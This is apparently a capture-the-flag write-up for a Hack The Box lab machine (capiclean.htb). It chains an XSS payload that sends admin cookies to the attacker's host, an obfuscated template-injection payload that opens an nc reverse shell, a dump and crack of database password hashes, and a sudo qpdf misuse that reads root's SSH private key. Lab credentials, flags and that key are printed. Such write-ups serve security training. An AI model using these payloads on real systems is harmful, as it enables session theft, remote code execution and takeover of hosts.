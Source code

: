 ### Enumeration

```bash
nmap -sC -sV -p- --min-rate 10000 10.129.240.52 -oA iclean
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 21:05 CEST
Nmap scan report for 10.129.240.52
Host is up (0.10s latency).
Not shown: 42923 filtered tcp ports (no-response), 22610 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Web enum

```bash
whatweb 10.129.240.52                                                                                                                            
http://10.129.240.52 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.240.52], Meta-Refresh-Redirect[http://capiclean.htb]
ERROR Opening: http://capiclean.htb - no address for capiclean.htb
```

We've got the hostname!
![](images/capiclean.png)

Some dir fuzzing:
```bash
ffuf -u http://capiclean.htb/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

login                   [Status: 200, Size: 2106, Words: 297, Lines: 88, Duration: 46ms]
services                [Status: 200, Size: 8592, Words: 2325, Lines: 193, Duration: 53ms]
team                    [Status: 200, Size: 8109, Words: 2068, Lines: 183, Duration: 54ms]
quote                   [Status: 200, Size: 2237, Words: 98, Lines: 90, Duration: 48ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 44ms]
dashboard               [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 49ms]
choose                  [Status: 200, Size: 6084, Words: 1373, Lines: 154, Duration: 174ms]
```

The `/quote` page was vulnerable to XSS and we were able to grab an admin cookie.

HTTP Request:

```http
POST /sendMessage HTTP/1.1
Host: capiclean.htb
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.8
Referer: http://capiclean.htb/quote
Accept-Encoding: gzip, deflate, br
Connection: close

service=<img+src%3dx+onerror%3d"location.href%3d'http%3a//10.10.16.8/%3fc%3d'%2b+document.cookie">%26service=Tile+%26+Grout&service=Office+Cleaning&email=test%40test.htb

```
![](images/xss_cookie.png)

Our webserver catched the cookie:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.240.52 - - [06/Apr/2024 21:19:24] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhA16w.YBZzKLSAVslmorVl9-ktQCJY8x0 HTTP/1.1" 200 -
```

Now setup the session cookie and access admin dashboard over `/dashboard`
![](images/cookie.png)

Admin dashboard:
![](images/admin_dashboard.png)


We had to generate an invoice first:

![](images/invoice1.png)


![](images/invoice2.png)

Now we had to generate a QR Code with the Invoice ID and get a new textbox:
![](images/textbox_shell.png)

In the qr link we entered a mkfifo reverse shell payload:
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.8 1337 >/tmp/f')|attr('read')()}}
```

And got a shell as `www-data` 

In the same folder we dropped there was a file called `app.py` which contains db creds:
```python
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Connect to the mysql database and collect user hashes:

```bash
mysql -h 127.0.0.1 -u iclean -p -D capiclean

mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+

```

Crackstation did the job:
![](crackstation.png)


| user     | pass             |
| -------- | ---------------- |
| consuela | simple and clean |

SSH open :) !

```bash
ssh consuela@10.129.240.52 

consuela@iclean:~$ cat user.txt 
89bfbb5add47ac804dbdb693313fc7b1

```

### Root Flag / Privilege Escalation

The user can run a binary as sudo
```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

We found an unintended way to get the root flag:
```bash
consuela@iclean:/opt/app$ sudo /usr/bin/qpdf @/root/root.txt out.pdf
qpdf: open f9f10e670abd6e3b92de272bde2bf2f4: No such file or directory
```

With the `qpdf` we can get the private key file from root as well.

Here are the steps:

```bash
sudo /usr/bin/qpdf --empty --add-attachment /root/.ssh/id_rsa --mimetype=text/plain -- among1.pdf

sudo /usr/bin/qpdf --list-attachments among1.pdf

sudo /usr/bin/qpdf --show-attachment=id_rsa among1.pdf

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----

# Save to a file and connect as root
root@iclean:~# id
uid=0(root) gid=0(root) groups=0(root)
```
